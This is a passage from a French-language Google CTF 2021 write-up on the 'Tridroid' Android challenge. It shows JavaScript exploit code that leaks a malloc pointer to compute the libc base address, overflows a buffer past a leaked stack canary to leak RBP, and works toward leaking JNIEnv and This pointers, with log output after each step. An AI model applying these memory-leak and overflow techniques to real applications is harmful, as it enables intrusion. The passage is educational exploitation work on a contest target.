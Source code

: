 Le décalage est de `0x43410`. En le soustrayant à l'adresse divulguée, on obtient l'adresse de base de la libc :

```javascript
// leak malloc address
malloc = unpack64(read(base_addr + 0x2F70))
// compute libc base
libc_base = malloc - 0x43410
console.log("Libc base address : "+libc_base.toString(16));
```

Cela donne :

```
08-03 20:10:33.389 23878 23878 I chromium: [INFO:CONSOLE(86)] "Libc base address : 7862bccd2000", source:  (86)
```

 ### Divulgation des objets JNIEnv and This

Nous avons vu que pour appeler la fonction `invokeJavaMethod`, nous avons besoin d'un pointeur sur l'objet `JNIEnv` et d'un pointeur sur l'objet `This`. Nous pouvons trouver des références à ces deux objets au début de la fonction `Java_com_google_ctf_pwn_tridroid_MainActivity_manageStack` :

![](/assets/posts/2021-07-18-Tridroid-Google-CTF-2021/envthis.png)

Nous voyons qu'ils sont stockés sur la pile à `RBP-0x60` et `RBP-0x68` respectivement (Ghidra ajoute 8 aux offsets de la pile car il commence à l'adresse de retour, IDA ne le fait pas).

Il s'avère que nous pouvons facilement divulguer la valeur de `RBP` car elle est stockée juste après le canari que nous avons divulgué plus tôt :

```javascript
// leak RBP
// RBP is at the end of the 40 bytes buffer, after the canary
modify("41414141414141414141414141414141414141414141414141414141414141414141414141424242"+canary);
// skip 48 first bytes (4141...)
leak = top().substring(96);
RBP = unpack64(leak);
console.log("RBP : "+RBP.toString(16));
```

Cela donne :

```
08-03 20:37:57.854  9143  9143 I chromium: [INFO:CONSOLE(99)] "RBP : 785fce295c30", source:  (99)
```

Maintenant nous pouvons divulguer les pointeurs vers `JNIEnv` et `This` en utilisant notre primitive de lecture :
